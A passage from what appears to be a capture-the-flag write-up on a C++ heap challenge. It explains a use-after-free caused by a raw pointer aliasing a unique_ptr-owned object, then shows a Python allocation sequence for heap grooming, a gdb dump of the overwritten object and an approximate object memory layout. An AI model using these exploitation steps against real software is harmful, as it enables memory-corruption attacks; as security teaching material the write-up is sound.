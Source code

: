 ```c++
case 1: {
  size_t idx = get_idx();
  favorite = foods[idx].get();
  break;
}
```

`favorite` is a normal "dumb" pointer. A `unique_ptr` from `foods[]` can't keep track of `favorites`, and when the `unique_ptr` associated with `favorites` is freed, a dangling pointer is left in `favorites`, causing a **use after free**.

### Testing the UAF

I start with a little bit of experimentation:

```python
alloc(0, b'a'*0x47)
alloc(1, b'b'*0x47)
alloc(2, b'c'*0x47)
fav(2)
alloc(2, b'A'*0x17)
alloc(1, b'B'*0x17)
alloc(0, b'C'*0x17)
printName()
```

My hope here is that, in using allocations of different sizes, the merging and reallocation<sup>3</sup> of a freed `foods[2]` will lead to one of the input strings overwriting `*favorites`.

The code above produces a crash _sometimes_<sup>4</sup>; here's one possible variant of a crash, where the contents of `favorite` are overwritten with the string data of the 2nd re-allocation: 

```
(gdb) telescope favorite
0x00007ffff76da1c0│+0x0000: "BBBBBBBBBBBBBBBBBBBBBBB"
0x00007ffff76da1c8│+0x0008: "BBBBBBBBBBBBBBB"
0x00007ffff76da1d0│+0x0010: 0x0042424242424242 ("BBBBBBB"?)
0x00007ffff76da1d8│+0x0018: 0x000000000000003c ("<"?)
0x00007ffff76da1e0│+0x0020: 0x0000000000000000
0x00007ffff76da1e8│+0x0028: 0x0000000000000051 ("Q"?)
0x00007ffff76da1f0│+0x0030: 0x0000000000000000
0x00007ffff76da1f8│+0x0038: "ccccccccccccccccccccccccccccccccccccccccccccccc"
0x00007ffff76da200│+0x0040: "ccccccccccccccccccccccccccccccccccccccc"
0x00007ffff76da208│+0x0048: "ccccccccccccccccccccccccccccccc"
```

At this point, it might be helpful to describe my approximation of how `Food`/`Bamboo` is represented in memory:

```cpp
struct Food {
	void **_vtable; // _vtable[0] == Eat()
    basic_string name_;
}
struct basic_string {
    union {
        struct {
            char *p; // when capacity>0xf, p holds a pointer to the actual bytes of the string data.
            size_t size; // don't really know what happens to this for capacity < 0x10
        } 
        char buf[0x10];
    }
    size_t capacity;
} // sizeof(basic_string) == 0x20
```
